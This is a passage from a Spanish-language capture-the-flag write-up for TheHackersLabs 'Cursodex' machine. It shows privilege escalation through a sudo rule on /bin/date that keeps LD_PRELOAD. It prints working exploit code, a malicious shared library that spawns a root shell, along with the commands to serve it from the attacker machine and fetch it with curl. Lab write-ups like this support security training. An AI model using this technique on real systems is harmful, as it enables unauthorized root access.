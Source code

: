 En la consola obtenida con www-data:

www-data@cursodex:/tmp$ su agent
Password: 
agent@cursodex:/tmp$ sudo -l
Matching Defaults entries for agent on cursodex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

Runas and Command-specific defaults for agent:
    Defaults!/bin/date env_keep+=LD_PRELOAD

User agent may run the following commands on cursodex:
    (ALL) PASSWD: /bin/date
Copiar
Podemos ejecutar el binario date como usuario root. Según GTFOBins, esto permite la lectura privilegiada de ficheros, pero en este caso no nos será útil. Debemos fijarnos en la opción env_keep+=LD_PRELOAD, que nos permitirá inyectar una librería maliciosa.

Creamos y compilamos una librería en nuestra máquina atacante, después levantamos un servicio HTTP para compartir el binario.

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ cat exploit.c                        
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ gcc -shared -fPIC -o exploit.so exploit.c
                                                    
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ python3 -m http.server 80
Copiar
En nuestra máquina víctima obtenemos el binario exploit.so con curl y lo guardamos en /tmp.

curl -o /tmp/exploit.so http://192.168.1.181/exploit.so
Copiar
y ejecutamos date con sudo, utilizando nuestra librería mediante la variable de entorno LD_PRELOAD.

sudo LD_PRELOAD=/tmp/exploit.so /bin/date
Copiar
Obtenemos una shell como usuario root y podemos leer la flag:

root@cursodex:/tmp# ls /root
root?????.txt
root@cursodex:/tmp# cat /root/root?????.txt 
8?????????????????????????????
Copiar
Espero que les haya gustado y que hayan aprendido algo.

  writeup   thehackerslabs   ai   ssrf   sudo   library-hijacking